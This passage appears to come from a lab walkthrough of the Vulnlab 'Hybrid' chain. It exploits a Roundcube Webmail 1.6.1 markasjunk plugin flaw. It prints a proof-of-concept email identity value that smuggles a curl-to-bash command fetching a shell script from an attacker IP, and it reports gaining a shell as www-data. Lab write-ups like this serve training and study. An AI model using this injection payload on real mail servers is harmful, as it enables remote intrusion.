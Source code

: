 There's a message which mentions `RoundCube`'s Junk filter plugin

![](/assets/posts/labs/vulnlab/chains/hybrid/2.png)

The version of application is `Roundcube Webmail 1.6.1`. There's a nice [blog](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/) regarding RCE vulnerability. It requires us to change email identity and mark email as junk. The blog provides `PoC`:
```
admin&curl${IFS}<IP>/shell${IFS}|${IFS}bash&@hybrid.vl
```

Now we need to change our email via `Settings => Identities`

![](/assets/posts/labs/vulnlab/chains/hybrid/3.png)

Now we mark `sent` message as `Junk`

![](/assets/posts/labs/vulnlab/chains/hybrid/4.png)

Exploit worked and we receive shell as `www-data`

![](/assets/posts/labs/vulnlab/chains/hybrid/5.png)
